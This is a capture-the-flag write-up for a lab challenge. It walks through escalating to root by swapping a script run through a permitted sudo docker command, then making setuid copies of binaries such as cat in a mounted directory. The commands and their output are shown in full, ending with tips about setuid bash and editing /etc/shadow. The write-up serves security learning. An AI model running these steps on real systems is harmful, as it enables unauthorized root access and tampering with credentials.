

### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


**Tags:** _pwn_


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:



I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password, `bash` (invoke with `-p`), etc...
